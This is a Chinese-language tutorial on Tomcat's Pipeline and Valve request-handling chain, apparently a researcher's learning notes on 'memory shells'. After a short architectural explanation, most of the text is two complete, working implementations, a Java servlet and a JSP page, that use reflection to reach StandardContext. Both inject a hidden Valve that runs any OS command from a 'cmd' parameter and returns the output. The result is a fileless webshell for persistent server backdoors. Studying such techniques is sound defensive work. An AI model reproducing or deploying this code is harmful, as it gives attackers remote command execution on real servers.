






# Java Security Of Tomcat Valve

## Preparation

​	在之前学习`Listener`内存马、`Filter`内存马和`Servlet`内存马时，下断点的调用栈中总有一个常见的字眼`Valve`，调用链中调用了很多与`Valve`相关的方法的`invoke`方法。



​	`Valve`翻译过来是阀门的意思。在`Tomcat`中，四大容器类`StandardEngine`、`StandardHost`、`StandardContext`、`StandardWrapper`中都有一个管道（`PipeLine`）及若干阀门（`Valve`）。

​	`PipeLine`伴随容器类对象生成时自动生成，就像容器的逻辑总线，按照顺序加载各个`Valve`，而`Valve`是逻辑的具体实现，通过`PipeLine`完成各个`Valve`之间的调用。在`PipeLine`生成时，同时会生成一个缺省`Valve`实现，就是在调试中经常看到的`StandardEngineValve`、`StandardHostValve`、`StandardContextValve`、`StandardWrapperValve`。

​	`Tomcat`在处理一个请求调用逻辑时，为了整体架构的每个组件的可伸缩性和可扩展性，使用了职责链模式来实现客户端请求的处理。在`Tomcat`中定义了两个接口：`Pipeline`（管道）和`Valve`（阀门）。`Pipeline`中有一个最基础的`Valve`，它始终位于末端，最后执行，且封装了具体的请求处理和输出响应的过程。`Pipeline`提供了`addValve`方法，可以添加新`Valve`在`BasicValve`之前，并按照添加顺序执行。



​	`Tomcat`容器的四个子容器中都有基础的`Valve`实现（`StandardEngineValve`、`StandardHostValve`、`StandardContextValve`、`StandardWrapperValve`），它们同时维护了一个`Pipeline`实例（`StandardPipeline`）。也就是说，可以在任何层级的容器上针对请求处理进行扩展，且这四个`Valve`的基础实现都继承了`ValveBase`。

## Process Analysis

​	跟进一下上文最开始调用栈图中的`org.apache.catalina.connector.CoyoteAdapter#service`方法，该方法调用`StandardEngine#getPipline`方法来获取其`Pipeline`，接着获取`Pipeline`中的第一个`Valve`并调用该`Valve`的`invoke`方法。



​	跟进`invoke`方法，发现其调用的是`org.apache.catalina.core.StandardEngineValve#invoke`方法，`StandardEngineValve`继承了`ValveBase`，且在`invoke`方法中能拿到`request`和`response`。



## Achievement

### Idea

​	动态注入`Valve`内存马的具体思路如下：

1. 继承并构造一个恶意的`Valve`；
2. 获取`StandardContext`；
3. 通过`StandardContext`获取当前容器的`StandardPipeline`；
4. 调用`StandardContext#addValve`方法添加恶意`Valve`。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ValveMemoryShellServlet", value = "/ValveMemoryShellServlet")
public class ValveMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            ValveBase valveBase = new ValveBase() {
                @Override
                public void invoke(Request request, Response response) throws IOException {
                    if (((HttpServletRequest) request).getParameter("cmd") != null) {
                        boolean isLinux = true;
                        String osType = System.getProperty("os.name");
                        if (osType != null && osType.toLowerCase().contains("win")) {
                            isLinux = false;
                        }

                        String[] command = isLinux ? new String[]{"sh", "-c", ((HttpServletRequest) request).getParameter("cmd")} : new String[]{"cmd.exe", "/c", ((HttpServletRequest) request).getParameter("cmd")};
                        InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                        Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                        String output = scanner.hasNext() ? scanner.next() : "";
                        ((HttpServletResponse) response).getWriter().write(output);
                        ((HttpServletResponse) response).getWriter().flush();
                    }
                }
            };

            standardContext.getPipeline().addValve(valveBase);
            response.getWriter().write("Valve Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    ValveBase valveBase = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws IOException {
            if (((HttpServletRequest) request).getParameter("cmd") != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", ((HttpServletRequest) request).getParameter("cmd")} : new String[]{"cmd.exe", "/c", ((HttpServletRequest) request).getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                ((HttpServletResponse) response).getWriter().write(output);
                ((HttpServletResponse) response).getWriter().flush();
            }
        }
    };

    standardContext.getPipeline().addValve(valveBase);
    response.getWriter().write("Valve Inject Successfully...");
%>
```


